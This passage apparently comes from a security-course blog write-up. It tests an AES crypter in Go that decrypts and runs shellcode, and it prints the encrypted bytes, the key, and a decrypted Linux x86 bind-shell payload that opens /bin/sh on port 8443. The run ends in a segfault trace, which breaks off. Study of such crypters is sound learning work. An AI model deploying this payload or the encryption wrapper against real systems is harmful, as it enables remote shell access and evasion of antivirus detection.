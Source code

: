 ### Testing out Decryption

To compile the decrypt program `go build aes_dec.go`, and to run we need to specify the key as argument `./aes_dec deadbeefdeafface`. 

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/go$ go build aes_dec.go

kecebong@ubuntu:~/slae32/assigment/go$ ./aes_dec deadbeefdeafface
[*] Encrypted shellcode:
0x31,0x37,0x64,0x63,0x36,0x35,0x65,0x35,0x37,0x62,0x63,0x66,0x32,0x33,0x65,0x65,0x66,0x61,0x62,0x32,0x62,
0x35,0x38,0x30,0x38,0x38,0x36,0x62,0x34,0x37,0x64,0x35,0x34,0x36,0x33,0x63,0x62,0x63,0x65,0x38,0x31,0x61,
0x64,0x30,0x33,0x39,0x61,0x63,0x34,0x31,0x31,0x66,0x61,0x38,0x66,0x61,0x66,0x34,0x63,0x35,0x62,0x34,0x39,
0x39,0x31,0x66,0x39,0x64,0x64,0x61,0x39,0x31,0x34,0x32,0x31,0x62,0x62,0x31,0x37,0x61,0x38,0x65,0x35,0x32,
0x35,0x30,0x63,0x32,0x66,0x36,0x63,0x63,0x66,0x33,0x65,0x66,0x62,0x35,0x62,0x32,0x31,0x38,0x31,0x61,0x32,
0x30,0x36,0x36,0x32,0x62,0x37,0x37,0x64,0x35,0x36,0x33,0x30,0x38,0x30,0x35,0x65,0x65,0x62,0x38,0x64,0x65,
0x34,0x64,0x64,0x35,0x35,0x61,0x37,0x65,0x64,0x37,0x36,0x38,0x32,0x34,0x36,0x31,0x30,0x38,0x34,0x34,0x34,
0x64,0x30,0x32,0x32,0x63,0x64,0x61,0x35,0x30,0x62,0x34,0x35,0x35,0x30,0x31,0x61,0x39,0x33,0x65,0x39,0x39,
0x64,0x38,0x66,0x61,0x33,0x39,0x61,0x36,0x39,0x62,0x63,0x39,0x31,0x66,0x63,0x64,0x31,0x33,0x62,0x39,0x64,
0x36,0x35,0x62,0x32,0x36,0x31,0x35,0x62,0x64,0x64,0x34,0x38,0x30,0x34,0x37,0x31,0x31,0x30,0x34,0x35,0x35,
0x66,0x39,0x64,0x65,0x61,0x34,0x30,0x37,0x64,0x39,0x34,0x66,0x32,0x62,0x39,0x66,0x35,0x31,0x61,0x63,0x30,
0x39,0x39,0x31,0x64,0x32,0x35,0x36,0x35,0x33

[x] Key:
deadbeefdeafface

[*] Decrypted shellcode:
0x31,0xc9,0xf7,0xe1,0x99,0x6a,0x66,0x58,0x6a,0x1,0x5b,0x51,0x6a,0x1,0x6a,0x2,0x89,0xe1,0xcd,0x80,0x97,0x6a,
0x66,0x58,0x6a,0x2,0x5b,0x52,0x66,0x68,0x20,0xfb,0x66,0x53,0x89,0xe1,0x6a,0x10,0x51,0x57,0x89,0xe1,0xcd,0x80,
0x6a,0x66,0x58,0x6a,0x4,0x5b,0x31,0xf6,0x56,0x57,0x89,0xe1,0xcd,0x80,0x6a,0x66,0x58,0x6a,0x5,0x5b,0x56,0x56,
0x57,0x89,0xe1,0xcd,0x80,0x89,0xc3,0x6a,0x2,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x6a,0xb,0x58,0x31,0xc9,
0x51,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0xcd,0x80

[*] Executing shellcode..

fatal error: unexpected signal during runtime execution
[signal SIGSEGV: segmentation violation code=0x2 addr=0xa4721f0 pc=0xa4721f0]

runtime stack:
runtime.throw(0x80fa973, 0x2a)
        /usr/local/go/src/runtime/panic.go:1112 +0x6a
runtime.sigpanic()
        /usr/local/go/src/runtime/signal_unix.go:671 +0x39d

goroutine 1 [syscall]:
runtime.cgocall(0x80cfba0, 0xa42a6a8, 0xa470090)
        /usr/local/go/src/runtime/cgocall.go:133 +0x67 fp=0xa42a694 sp=0xa42a67c pc=0x804b4b7
main._Cfunc_run_shellcode(0xa4721f0)
        _cgo_gotypes.go:43 +0x33 fp=0xa42a6a8 sp=0xa42a694 pc=0x80cf213
main.main()
        /home/kecebong/slae32/assigment/go/aes_dec.go:72 +0x6f6 fp=0xa42a7c8 sp=0xa42a6a8 pc=0x80cf946
runtime.main()